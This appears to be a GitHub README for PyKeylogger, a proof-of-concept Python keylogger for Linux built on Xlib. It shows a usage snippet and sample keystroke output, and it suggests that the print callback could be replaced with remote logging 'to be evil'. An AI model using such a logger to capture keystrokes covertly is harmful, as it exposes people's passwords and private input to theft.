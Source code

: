 PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   'o'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   'm'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   'g'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
